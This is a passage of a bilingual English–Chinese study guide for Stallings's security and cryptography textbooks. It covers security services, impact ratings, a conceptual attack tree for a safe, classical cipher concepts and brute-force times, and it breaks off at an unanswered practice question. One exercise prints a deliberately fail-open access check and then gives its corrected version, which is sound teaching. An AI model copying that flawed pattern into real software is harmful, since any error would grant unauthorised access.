- Availability: systems work promptly and service is not denied to authorized users.可用性：系统能够及时工作，授权用户不会被拒绝服务。
The loss of confidentiality is unauthorized disclosure, the loss of integrity is unauthorized modification or destruction, and the loss of availability is disruption of access. Together they form the CIA triad.机密性丧失即未授权泄露，完整性丧失即未授权修改或破坏，可用性丧失即访问中断。三者合起来构成 CIA 三元组。
思路：机密性防泄露，完整性防篡改，可用性防中断。
E8. (Review Question 1.4, Stallings) List and briefly define categories of security services.E8.（复习题 1.4，Stallings）列出安全服务的类别，并简要定义。
Answer
- Authentication: assures that a communication is authentic. Peer entity authentication confirms the identity of a communicating partner; data origin authentication confirms the source of a data unit.认证：保证通信是真实的。对等实体认证确认通信对方的身份；数据源认证确认数据单元的来源。
- Access control: limits and controls who may access hosts and applications through communication links.访问控制：限制和控制谁可以通过通信链路访问主机和应用。
- Data confidentiality: protects transmitted data from passive attacks (all user data of a connection, a single message or selected fields); traffic-flow confidentiality also hides source, destination, frequency and length.数据机密性：保护传输的数据免受被动攻击（可以针对一个连接中的全部用户数据、单条消息或选定的字段）；流量机密性还隐藏源、目的、频率和长度。
- Data integrity: assures that messages are received as sent, with no duplication, insertion, modification, reordering or replay; the service detects violations and may recover.数据完整性：保证消息按发送的原样被接收，不发生重复、插入、修改、重新排序或重放；该服务检测违规行为，并可以进行恢复。
- Nonrepudiation: neither the sender nor the receiver can deny having sent or received a message.不可否认性：发送方和接收方都不能否认已经发送或接收过消息。
- Availability: a system or resource is accessible and usable on demand by an authorized entity.可用性：系统或资源可以在授权实体需要时被访问和使用。
思路：六类服务：认证、访问控制、机密性、完整性、不可否认性、可用性。
E9. (Review Question 1.5, Stallings) List and briefly define categories of security mechanisms.E9.（复习题 1.5，Stallings）列出安全机制的类别，并简要定义。
Answer
- Cryptographic algorithms: reversible (encryption) or irreversible (hash functions and message authentication codes).密码算法：可逆的（加密），或不可逆的（散列函数和消息认证码）。
- Data integrity: mechanisms that assure the integrity of a data unit or of a stream of data units.数据完整性：保证单个数据单元或数据单元流完整性的机制。
- Digital signature: data appended to a data unit, or a cryptographic transformation of it, that lets the recipient prove its source and integrity and protects against forgery.数字签名：附加在数据单元上的数据，或对数据单元的一种密码变换，使接收方能够证明其来源和完整性，并防止伪造。
- Authentication exchange: ensures the identity of an entity by the exchange of information.认证交换：通过信息交换来确认实体的身份。
- Traffic padding: inserting bits into gaps of a data stream to frustrate traffic analysis.流量填充：在数据流的间隙插入比特，以挫败流量分析。
- Routing control: selects secure routes and allows routes to change when a breach is suspected.路由控制：选择安全的路由，并在怀疑发生破坏时允许路由改变。
- Notarization: a trusted third party assures properties of a data exchange.公证：由可信第三方对数据交换的某些属性进行保证。
- Access control: mechanisms that enforce access rights to resources.访问控制：强制执行资源访问权限的机制。
思路：服务回答“要什么”，机制回答“用什么手段”。
E10. (Review Question 1.7, Stallings) Provide an overview of the three types of cryptographic algorithms.E10.（复习题 1.7，Stallings）概述三类密码算法。
Answer
The three types are distinguished by the number of keys used.这三类按所用密钥的数量区分。
- Keyless algorithms use no key. Cryptographic hash functions map a variable-length input to a short fixed-length digest; pseudorandom number generators produce a deterministic sequence that appears random.无密钥算法不使用密钥。密码散列函数把变长的输入映射为短的定长摘要；伪随机数生成器产生一个确定性的、看起来随机的序列。
- Single-key algorithms (secret-key, symmetric) use one shared secret key. They are symmetric encryption, as block ciphers or stream ciphers, and message authentication codes.单密钥算法（秘密密钥、对称）使用一个共享的秘密密钥。它们包括对称加密（分组密码或流密码）以及消息认证码。
- Two-key algorithms (asymmetric) use a private and a public key. They are used for asymmetric encryption, digital signatures, key exchange and user authentication.双密钥算法（非对称）使用一个私钥和一个公钥。它们用于非对称加密、数字签名、密钥交换和用户认证。
思路：按密钥个数分：无密钥（哈希、伪随机数）、单密钥（对称）、双密钥（非对称）。
E11. (Review Question 1.8, Stallings) Provide an overview of the two major elements of network security.E11.（复习题 1.8，Stallings）概述网络安全的两大要素。
Answer
- Communications security protects the communication through the network against passive and active attacks. It relies on cryptographic algorithms and on security protocols built from them, for example IPsec, IEEE 802.11i, TLS and SSH.通信安全保护经由网络的通信免受被动和主动攻击。它依赖密码算法，以及由这些算法构建的安全协议，例如 IPsec、IEEE 802.11i、TLS 和 SSH。
- Device security protects the network devices (routers, switches, clients and servers) against intruders and unauthorized access, using firewalls, intrusion detection and intrusion prevention.设备安全利用防火墙、入侵检测和入侵防御，保护网络设备（路由器、交换机、客户端和服务器）免受入侵者和未授权访问的侵害。
The first secures the data in transit, the second secures the systems that send, carry and receive it.前者保护传输中的数据，后者保护发送、传输和接收数据的系统。
思路：通信安全保护传输中的数据；设备安全保护网络设备本身。
E12. (Review Question 1.9, Stallings) Briefly explain the concepts of trust and trustworthiness.E12.（复习题 1.9，Stallings）简要解释信任和可信性的概念。
Answer
Trust is the willingness of a party (the truster) to be vulnerable to the actions of another party (the trustee), based on the expectation that the trustee will perform an action important to the truster, irrespective of the ability to monitor or control it. In information security it is confidence that an entity will behave in a way that does not prejudice the security of the user, and it is limited to specific functions within a security policy.信任是一方（信任方）愿意让自己易受另一方（受信方）行为的影响，基于这样的期望：受信方会做出对信任方重要的行为，而不论能否对其进行监控或控制。在信息安全中，信任指对某一实体会以不损害用户安全的方式行事的信心，并且它局限于安全策略内的特定功能。
Trustworthiness is the degree to which the trustee deserves trust. It is judged by three factors: ability (competence for the task), benevolence (goodwill, no intent to harm) and integrity (adherence to acceptable principles). Trust arises from the truster's propensity to trust and the perceived trustworthiness of the trustee. For a system, trustworthiness depends on security functionality and on security assurance.可信性是受信方值得被信任的程度。它由三个因素判断：能力（完成任务的胜任力）、善意（无意伤害）和诚信（遵守可接受的原则）。信任来自信任方的信任倾向，以及对受信方可信性的感知。对于一个系统，可信性取决于安全功能和安全保证。
思路：信任是主观依赖，可信性是对方客观上值得信任的程度。
E13. (Problem 1.4, Stallings & Brown) Assign a low, moderate or high impact level for the loss of confidentiality, availability and integrity, respectively, and justify the answers, for: (a) an organization managing public information on its Web server; (b) a law enforcement organization managing extremely sensitive investigative information; (d) an information system used for large acquisitions in a contracting organization that contains both sensitive pre-solicitation phase contract information and routine administrative information; assess the impact for the two data sets separately and for the system as a whole.E13.（习题 1.4，Stallings & Brown）请分别给出机密性、可用性和完整性丧失的低、中或高影响等级，并说明理由。对象为：(a) 在其 Web 服务器上管理公开信息的组织；(b) 管理极其敏感的侦查信息的执法机构；(d) 一个用于大型采购的合同机构信息系统，它同时包含敏感的招标前合同信息和例行的行政信息。对两个数据集分别评估影响，并评估整个系统的影响。
Answer
Impact levels follow FIPS 199: low is a limited adverse effect, moderate a serious one, high a severe or catastrophic one. For a system with several data sets, each objective takes the highest rating of any data set (high-water mark).影响等级依据 FIPS 199：低级是有限的不利影响，中级是严重的不利影响，高级是严重或灾难性的不利影响。对于包含多个数据集的系统，每个目标取任一数据集中的最高评级（高水位）。
| Asset资产 | Confidentiality机密性 | Integrity完整性 | Availability可用性 |
|---|---|---|---|
| (a) Public web information(a) 公开的网页信息 | Low低 | Moderate中 | Moderate中 |
| (b) Law enforcement investigations(b) 执法侦查 | High高 | Moderate中 | Moderate中 |
| (d) Sensitive pre-solicitation data(d) 敏感的招标前数据 | Moderate中 | Moderate中 | Low低 |
| (d) Routine administrative data(d) 例行行政数据 | Low低 | Low低 | Low低 |
| (d) Whole acquisition system(d) 整个采购系统 | Moderate中 | Moderate中 | Low低 |
Justification.理由。
- (a) The information is public, so disclosure causes no harm (low). Defaced or falsified public pages damage the organization's reputation and mislead users, a serious effect (moderate). A long outage of the public service seriously reduces its ability to serve the public, but not catastrophically (moderate).(a) 信息是公开的，因此泄露不造成危害（低）。网页被篡改或伪造会损害组织声誉并误导用户，是严重的影响（中）。公共服务长时间中断会严重削弱其服务公众的能力，但不至于是灾难性的（中）。
- (b) Disclosure could expose informants and investigations and so cause severe harm (high). Altered records could compromise cases, but errors are likely to be caught, so a serious effect (moderate). Short outages delay but do not stop investigations (moderate).(b) 泄露可能暴露线人和侦查工作，因而造成严重危害（高）。被篡改的记录可能危及案件，但错误很可能被发现，因此是严重的影响（中）。短时间中断只会延误侦查，不会使其停止（中）。
- (d) Early disclosure of pre-solicitation information gives bidders an unfair advantage, a serious effect (moderate); modification could distort the award (moderate); a short delay is tolerable (low). Routine data are low on all three. The system is rated by the highest value per objective: moderate, moderate, low.(d) 招标前信息的提前泄露会使投标方获得不公平的优势，是严重的影响（中）；篡改可能扭曲授标结果（中）；短时间延迟是可以容忍的（低）。例行数据在三个目标上都是低。系统按每个目标的最高值评级：中、中、低。
These ratings are judgements; what is examined is the reasoning from the consequence of each loss to a level, and the use of the highest value for the whole system.这些评级是判断；考察的是从每种损失的后果得出等级的推理过程，以及对整个系统取最高值的做法。
思路：先判断每种损失的后果严重程度，再对多数据集的系统逐项取最高值。
E14. (Problem 1.5, Stallings & Brown) Consider the following general code for allowing access to a resource:E14.（习题 1.5，Stallings & Brown）考虑下面这段用于允许访问某资源的通用代码：
DWORD dwRet = IsAccessAllowed(...);
if (dwRet == ERROR_ACCESS_DENIED) {
// Security check failed.
// Inform user that access is denied.
} else {
// Security check OK.
}
(a) Explain the security flaw in this program. (b) Rewrite the code to avoid the flaw. Hint: consider the design principle of fail-safe defaults.(a) 解释该程序中的安全缺陷。(b) 重写代码以避免该缺陷。提示：考虑失败-安全默认这一设计原则。
Answer
(a) The code denies access only when the function returns exactly the one value ERROR_ACCESS_DENIED, and grants access for every other value. IsAccessAllowed can also fail in other ways: it can return a different error code (out of memory, invalid handle, a failed lookup of the security descriptor) or an unexpected value. All of these fall into the else branch and the user is granted access. The default is therefore "allow", and any error, or an attacker who deliberately provokes an error, opens the resource. This violates fail-safe defaults, which require that access is based on permission, not exclusion.(a) 只有当函数恰好返回 ERROR_ACCESS_DENIED 这一个值时，代码才拒绝访问，对于其他任何值都授予访问。IsAccessAllowed 还可能以其他方式失败：它可能返回另一个错误码（内存不足、句柄无效、查找安全描述符失败），或者返回意料之外的值。所有这些情况都会落入 else 分支，用户因此获得访问权限。于是默认是“允许”，任何错误，或攻击者故意诱发的错误，都会打开资源。这违反了失败-安全默认原则，该原则要求访问以许可为依据，而不是以排除为依据。
(b) Grant access only when the function explicitly reports success, and deny in every other case:(b) 只有在函数明确报告成功时才授予访问，其他所有情况一律拒绝：
DWORD dwRet = IsAccessAllowed(...);
if (dwRet == NO_ERROR) {
// Security check OK.
} else {
// Security check failed or an error occurred.
// Inform user that access is denied.
}
Now an unexpected result causes a refusal, which is safe and quickly noticed, instead of an unnoticed grant.现在，意料之外的结果会导致拒绝访问，这样既安全，又能迅速被察觉，而不是悄悄地授予访问权限。
思路：只有明确返回成功才放行，其余一律拒绝（默认拒绝）。
E15. (Problem 1.6, Stallings & Brown) Develop an attack tree for gaining access to the contents of a physical safe.E15.（习题 1.6，Stallings & Brown）为获取实体保险箱内容的攻击建立一棵攻击树。
Answer
The root is the goal "open the safe and obtain its contents". It is an OR node because any one of the branches is enough. The tree below gives difficulty values (low numbers are easier) at the leaves.根节点是目标“打开保险箱并取得其内容”。它是或节点，因为任一分支就足够了。下面的树在叶节点上给出难度值（数字越小越容易）。
Obtain contents of the safe OR
├── Open the door without the combination OR
│ ├── Pick the lock 30
│ ├── Drill the lock or the hinges 45
│ └── Cut or blast the safe open 100
├── Learn the combination OR
│ ├── Find the written combination 75
│ ├── Bribe or coerce the owner 60
│ ├── Eavesdrop on the owner AND
│ │ ├── Install a listening device or camera 20
│ │ └── Wait until the owner opens the safe 40
│ └── Guess or brute-force the combination 90
└── Remove the whole safe AND
├── Get into the building OR
│ ├── Break in 35
│ └── Enter as an authorized visitor 25
└── Carry the safe away and open it later 50
Evaluation: an AND node is the sum of its children, an OR node the minimum. Eavesdrop = 20 + 40 = 60; Learn the combination = min(75, 60, 60, 90) = 60; Remove the whole safe = 25 + 50 = 75; Open the door = min(30, 45, 100) = 30. The root is min(30, 60, 75) = 30, so the cheapest attack is to pick the lock. A better lock that raises the lock leaf to 120 only moves the cheapest attack to drilling: Open the door = min(120, 45, 100) = 45 and the root becomes 45. The defender must therefore raise the cheapest path, not a single leaf.求值：与节点是其子节点之和，或节点是其中的最小值。窃听 = 20 + 40 = 60；得知组合密码 = min(75, 60, 60, 90) = 60；整体搬走保险箱 = 25 + 50 = 75；打开门 = min(30, 45, 100) = 30。根节点为 min(30, 60, 75) = 30，因此最便宜的攻击是撬锁。若把锁这一叶节点的值提高到 120，最便宜的攻击只会转为钻孔：打开门 = min(120, 45, 100) = 45，根节点变为 45。因此，防御者必须提高最便宜路径的成本，而不是只提高某一个叶节点。
思路：根是目标；OR 取最小，AND 求和，最便宜的路径决定防御重点。
Chapter 2Symmetric Cipher Model and Classical Ciphers对称密码模型与古典密码Reading: Stallings (Crypto) Ch. 3; Stallings & Brown 2.1
Symmetric cipher model ★★★对称密码模型
Goal. List the ingredients and the requirements of a symmetric cipher, say which part must stay secret, classify a cipher, and compare block and stream ciphers.目标。 列出对称密码的要素和要求，说明哪一部分必须保密，对密码进行分类，并比较分组密码和流密码。
Step 1: the five ingredients第 1 步：五个要素
In words: symmetric encryption = sender and receiver share one secret key; the sender scrambles with it and the receiver unscrambles with it.用文字表述：对称加密 = 发送方和接收方共享同一个秘密密钥；发送方用它打乱消息，接收方用它还原消息。
A symmetric encryption（对称加密）scheme is also called conventional, single-key or secret-key encryption. It has five ingredients.对称加密方案也称为传统加密、单密钥加密或秘密密钥加密。它有五个要素。
- The plaintext \(X\), the original readable message.明文 \(X\)，即原始的可读消息。
- The encryption algorithm, which applies substitutions and transformations to the plaintext.加密算法，它对明文施加代换和变换。
- The secret key \(K\), an input that is independent of plaintext and algorithm and selects the exact transformation.秘密密钥 \(K\)，是一个独立于明文和算法的输入，用来选定具体的变换。
- The ciphertext \(Y\), the scrambled output. It depends on \(X\) and \(K\).密文 \(Y\)，即打乱后的输出。它依赖于 \(X\) 和 \(K\)。
- The decryption algorithm, essentially the encryption algorithm run in reverse.解密算法，本质上是加密算法的逆向运行。




The cryptanalyst（密码分析者）, the opponent, sees \(Y\) and knows \(E\) and \(D\). The opponent has neither \(K\) nor \(X\). The aim is an estimate of the plaintext or, better, of the key, because the key also opens all future messages. Secure use needs two things.密码分析者，即对手，能看到 \(Y\)，并且知道 \(E\) 和 \(D\)。对手既没有 \(K\)，也没有 \(X\)。其目标是估计明文，或者更好的是估计密钥，因为密钥还能打开今后所有的消息。安全使用需要满足两点。
- A strong algorithm: an opponent who knows it and holds many ciphertexts, even with their plaintexts, can neither decrypt a new ciphertext nor find the key.强算法：即使对手知道该算法，并掌握大量密文以及对应的明文，他既无法解密新的密文，也无法找到密钥。
- Secure key distribution and storage: whoever finds the key reads all traffic under it.安全的密钥分发与存储：谁获得了密钥，谁就能读取该密钥所保护的全部通信。
Hence only the key must be secret, not the algorithm. This is Kerckhoffs's principle（柯克霍夫原则）. Example: everybody knows how a bank vault door works; the vault is safe because the combination is secret.因此，只有密钥必须保密，算法不必保密。这就是柯克霍夫原则。例如，人人都知道银行金库门是怎样工作的，金库之所以安全，是因为密码组合是保密的。
Step 2: how ciphers are classified第 2 步：密码如何分类
In words: ciphers differ in what they do to the plaintext, how many keys they use and how they cut the input.用文字表述：密码的区别在于它对明文做什么、使用几个密钥，以及如何切分输入。
| Dimension维度 | Alternatives可选类型 |
|---|---|
| Operation on plaintext对明文的操作 | Substitution（代换）replaces each element (bit, letter, group) by another. Transposition（换位）rearranges the elements. A product system（乘积密码）chains several stages of both. Every operation must be reversible: no information may be lost.代换将每个元素（比特、字母或组）替换为另一个元素。换位重新排列各元素。乘积密码将两种操作的多个阶段串联起来。每一步操作都必须可逆：不能丢失任何信息。 |
| Number of keys密钥数 | One shared key: symmetric. Two keys, one public and one private: asymmetric or public-key (Chapter 9).一个共享密钥：对称。两个密钥，一个公开、一个私有：非对称或公钥密码（第 9 章）。 |
| Processing of input输入的处理方式 | Block cipher（分组密码）: one fixed-size block in, one equal-size block out. Stream cipher（流密码）: elements are processed continuously, one at a time.分组密码：输入一个固定长度的分组，输出一个等长的分组。流密码：元素被连续地逐个处理。 |
Every operation must be reversible, so that no information is lost. Examples: Caesar shifts letters (substitution). The rail fence moves letters (transposition). Caesar followed by a rail fence is a product system.每一步操作都必须可逆，这样才不会丢失信息。例如，凯撒密码平移字母（代换）；栅栏密码移动字母（置换）。先做凯撒再做栅栏，就是一个乘积系统。
Step 3: block versus stream ciphers第 3 步：分组密码与流密码
In words: a block cipher scrambles one fixed-size block at a time; a stream cipher scrambles the data continuously, one element at a time.用文字表述：分组密码每次处理一个固定长度的分组；流密码则连续地、逐个元素地处理数据。


| Criterion比较项 | Block cipher分组密码 | Stream cipher流密码 |
|---|---|---|
| Unit processed处理单位 | one fixed-size block in, one block of equal size out每次输入一个固定长度的分组，输出一个等长的分组 | one element (a bit or a byte) at a time每次处理一个元素（一个比特或一个字节） |
| How it works工作方式 | a long message is cut into blocks (modes of operation, Section 7.2)长消息被切成分组（工作模式，见第 7.2 节） | the key drives a pseudorandom generator; its keystream is XORed with the plaintext (Section 8.4)密钥驱动一个伪随机生成器，它产生的密钥流与明文异或（见第 8.4 节） |
| Advantage优点 | keys can be reused密钥可以重复使用 | almost always faster and smaller; with a well-designed keystream generator it can be as secure as a block cipher of comparable key length几乎总是更快、更省资源。只要密钥流生成器设计得好，它的安全性就能与同样密钥长度的分组密码相当 |
| Typical use典型应用 | blocks of data: file transfer, e-mail, databases数据块：文件传输、电子邮件、数据库 | data streams: communication channels, browser links数据流：通信信道、浏览器连接 |
| Block cipher分组密码 | Block size分组长度 | Key size密钥长度 |
|---|---|---|
| DES (Chapter 4)DES（第 4 章） | 64 bits | 56 bits |
| 3DES (Chapter 7)3DES（第 7 章） | 64 bits | 112 or 168 bits |
| AES (Chapter 6)AES（第 6 章） | 128 bits | 128, 192 or 256 bits |
Practice练习
Q1. (Concept) List the five ingredients of a symmetric encryption scheme and the two requirements for its secure use. Which part must stay secret?Q1. （概念）列出对称加密方案的五个组成要素，以及其安全使用所需的两项要求。哪一部分必须保密？
Answer
Ingredients: plaintext, encryption algorithm, secret key, ciphertext, decryption algorithm. Requirements: (1) a strong algorithm, so that an opponent who knows it and holds ciphertexts, even with the matching plaintexts, can neither decrypt further ciphertext nor find the key; (2) sender and receiver obtain the key securely and keep it secure. Only the key must stay secret; the algorithm is assumed to be known.组成要素：明文、加密算法、秘密密钥、密文、解密算法。要求：（1）强加密算法，即使对手知道该算法，并持有密文（甚至包括对应的明文），也既无法解密更多的密文，也无法找出密钥；（2）发送方和接收方安全地获得密钥，并妥善保管。只有密钥必须保密；算法被假定为已知。
Q2. (Compare) Compare block and stream ciphers (unit processed, advantage, typical use) and give the block and key sizes of DES, 3DES and AES.Q2. （比较）比较分组密码与流密码（处理的单位、优点、典型用途），并给出 DES、3DES 和 AES 的分组长度和密钥长度。
Answer
A block cipher maps each fixed-size input block to an output block of equal size, so a long message becomes a series of blocks; keys can be reused, and it suits data in blocks (files, e-mail, databases). A stream cipher XORs a keystream, generated from the key by a pseudorandom generator, with the plaintext byte by byte; it is almost always faster with less code and suits data streams (communication channels, browser links). DES: 64-bit block, 56-bit key. 3DES: 64-bit block, 112- or 168-bit key. AES: 128-bit block, 128-, 192- or 256-bit key.分组密码将每个固定长度的输入分组映射为一个等长的输出分组，因此长消息即变为一系列分组；密钥可以重复使用，它适用于分组形式的数据（文件、电子邮件、数据库）。流密码则将由密钥经伪随机生成器产生的密钥流与明文逐 byte 进行异或；它几乎总是更快、代码更少，适用于数据流（通信信道、浏览器链接）。DES：64-bit 分组，56-bit 密钥。3DES：64-bit 分组，112 或 168-bit 密钥。AES：128-bit 分组，128、192 或 256-bit 密钥。
Q3. (True/false) "A cipher whose algorithm is published cannot be secure." Justify.Q3. （判断）“算法已公开的密码不可能是安全的。”请说明理由。
Answer
False. The opponent is assumed to know the algorithm anyway; security must rest on the key alone. Published algorithms such as DES and AES are the most intensively studied, and publication permits cheap standard implementations. What must be protected is the key, so key distribution and storage become the main problem.错误。无论如何都应假定对手知道算法，安全性只能依赖于密钥。DES 和 AES 等公开算法是研究最为深入的算法，公开也使廉价的标准实现成为可能。需要保护的是密钥，因此密钥分发与存储成为主要问题。
思路：安全性只靠密钥（柯克霍夫原则）。
Cryptanalysis and brute-force attack ★★★密码分析与穷举攻击
Goal. Name the type of an attack from what the opponent knows, define unconditional and computational security, and compute the average brute-force time of a key.目标。 根据攻击者已知的内容给攻击分类，定义无条件安全和计算安全，并计算一个密钥的平均穷举时间。
Step 1: two ways to attack第 1 步：两类攻击
In words: cryptanalysis = deduce the plaintext or the key from structure left in the ciphertext; brute force = try every key until the plaintext makes sense.用文字表述：密码分析 = 从密文中残留的结构推出明文或密钥；穷举攻击 = 逐一尝试所有密钥，直到明文可以读懂。
An attack usually aims at the key, because a recovered key exposes all past and future messages. Cryptanalysis（密码分析）uses the nature of the algorithm, general knowledge of the plaintext or sample plaintext–ciphertext pairs. It works because traces of the plaintext structure survive encryption. A brute-force attack（暴力破解）tries every possible key on a ciphertext until an intelligible plaintext appears.攻击通常以密钥为目标，因为一旦密钥被恢复，过去和将来的所有消息都会暴露。密码分析利用算法的性质、对明文的一般了解，或者样本明文与密文对。它之所以有效，是因为明文结构的痕迹在加密后仍然保留。穷举攻击对一段密文尝试每一个可能的密钥，直到得到可以读懂的明文。
Step 2: the types of attack第 2 步：攻击的类型
In words: the attack type says what the opponent knows besides the algorithm and the ciphertext.用文字表述：攻击类型说明，除了算法和密文之外，攻击者还知道什么。
| Attack攻击 | Also known to the cryptanalyst密码分析者另外已知的信息 |
|---|---|
| Ciphertext only（唯密文） | nothing else (the hardest case for the analyst)别无其他（对分析者而言最困难的情形） |
| Known plaintext（已知明文） | one or more plaintext–ciphertext pairs under the secret key, for example from fixed message headers同一密钥下的一组或多组明文–密文对，例如来自固定的消息头 |
| Chosen plaintext（选择明文） | plaintext chosen by the analyst, with its ciphertext分析者选定的明文及其密文 |
| Chosen ciphertext（选择密文） | ciphertext chosen by the analyst, with its decryption分析者选定的密文及其解密结果 |
| Chosen text选择文本 | both of the last two上述两者兼有 |
Example of a known-plaintext attack: every intercepted e-mail starts with the same fixed header, so the analyst holds a few plaintext–ciphertext pairs. Ciphertext only is the weakest attack for the analyst, so it is the easiest one to defend against.已知明文攻击的例子：每封截获的电子邮件都以相同的固定首部开头，因此分析者手中有若干明文与密文对。唯密文攻击对分析者来说最弱，所以也最容易防御。
Step 3: unconditional and computational security第 3 步：无条件安全与计算安全
In words: unconditionally secure = even unlimited time and ciphertext cannot reveal the plaintext; computationally secure = breaking costs more than the secret is worth.用文字表述：无条件安全 = 即使时间和密文都不受限，密文也无法揭示明文；计算安全 = 破解的代价超过秘密本身的价值。
- Unconditionally secure（无条件安全）: the ciphertext lacks the information to determine the plaintext uniquely, however much ciphertext and time the opponent has. Only the one-time pad has this property (Section 2.5).无条件安全：无论对手拥有多少密文、用多长时间，密文都不包含足以唯一确定明文的信息。只有一次一密具有这一性质（见第 2.5 节）。
- Computationally secure（计算安全）: the cost of breaking exceeds the value of the information, or the time needed exceeds its useful lifetime. All other ciphers can offer only this, and the effort is hard to estimate.计算安全：破解的代价超过信息的价值，或者破解所需的时间超过信息的有效期。其他所有密码都只能做到这一点，而且所需的工作量很难估计。
Step 4: brute-force time第 4 步：穷举所需时间
In words: on average the attacker finds the key after trying half of all keys, so the time is half the key space divided by the testing speed.用文字表述：平均来说，攻击者要试到一半的密钥才能找到密钥，因此所需时间等于密钥空间的一半除以测试速度。
Trying keys is not enough. The analyst must also recognise the plaintext. This is easy for English text and harder if the text was compressed, because compressed data looks random. Some knowledge of the expected plaintext is needed.只会尝试密钥还不够，分析者还必须能认出明文。英文文本很容易认出；如果文本经过压缩，就难多了，因为压缩后的数据看起来像随机数。因此需要对预期的明文有一定了解。
| Key密钥 | Number of keys密钥数 | Average time at \(10^9\) keys/s | At \(10^{13}\) keys/s |
|---|---|---|---|
| 56-bit (DES)56-bit（DES） | \(7.2\times10^{16}\) | 1.1 years1.1 年 | 1 hour1 小时 |
| 128-bit | \(3.4\times10^{38}\) | \(5.4\times10^{21}\) years | \(5.4\times10^{17}\) years |
| 168-bit (3DES)168-bit（3DES） | \(3.7\times10^{50}\) | \(5.9\times10^{33}\) years | \(5.9\times10^{29}\) years |
| Permutation of 26 letters26 个字母的置换 | \(26!\approx4.0\times10^{26}\) | \(6.4\times10^{9}\) years | \(6.4\times10^{5}\) years |
A 56-bit key is therefore weak, while keys of 128 bits or more resist brute force even with a further \(10^{12}\)-fold speed-up.因此 56 位密钥很弱，而 128 位或更长的密钥即使速度再提高 \(10^{12}\) 倍，也能抵抗穷举。
Practice练习
Q1. (Calculation) A cipher has a 64-bit key and an attacker can test \(10^9\) keys per second. (a) How many keys are tried on average? (b) How long does this take in years? (c) How long at \(10^{13}\) keys per second?Q1. （计算）某密码的密钥为 64-bit，攻击者每秒可测试 \(10^9\) 个密钥。(a) 平均需要尝试多少个密钥？(b) 这需要多少年？(c) 若每秒可测试 \(10^{13}\) 个密钥，需要多长时间？
Answer
